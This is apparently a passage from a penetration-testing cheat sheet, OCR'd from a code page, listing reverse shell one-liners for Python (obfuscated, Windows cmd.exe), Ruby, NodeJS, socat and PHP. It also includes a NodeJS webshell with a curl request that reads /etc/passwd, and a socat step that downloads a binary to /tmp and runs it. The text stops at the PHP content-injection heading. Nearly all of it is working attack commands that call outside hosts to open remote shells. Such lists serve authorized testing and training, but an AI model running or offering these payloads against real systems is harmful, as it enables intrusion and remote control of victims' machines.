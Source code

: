           C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"    

- **RUBY:**  

        ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
	
- **NodeJS/Javascript:**

		var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(80, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});  
	- Webshell:  
	
			setTimeout(function() { require('http').createServer(function (req, res) { res.writeHead(200, {"Content-Type": "text/plain"});require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e,s,st) {res.end(s);}); }).listen(8000); }, 5000)  
		
			curl http://192.168.1.1:8000?cmd=cat%20/etc/passwd
		
- **SOCAT:**  

       Attacker:  socat file:`tty`,raw,echo=0 tcp-listen:4444  \\  socat -d -d TCP4-LISTEN:443 STDOUT
       Victim:  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  \\  socat TCP4:10.11.0.22:443 EXEC:/bin/bash
          Or:  wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.15.25:4444

- **PHP:**
    - Commandline:  
    
			exec():  php -r '$sock=fsockopen("192.168.119.186",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
			shell_exec():  php -r '$s=fsockopen("192.168.2.6",8080);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
			system():  php -r '$s=fsockopen("192.168.2.6",8080);system("/bin/sh -i <&3 >&3 2>&3");'
			popen():  php -r '$s=fsockopen("192.168.2.6",8080);popen("/bin/sh -i <&3 >&3 2>&3","r");'
			/bin/sh:  php -r '$s=fsockopen("192.168.2.6",8080);`/bin/sh -i <&3 >&3 2>&3`;'
    - Simple Content Inject (File edit, upload, LFI, etc.):  

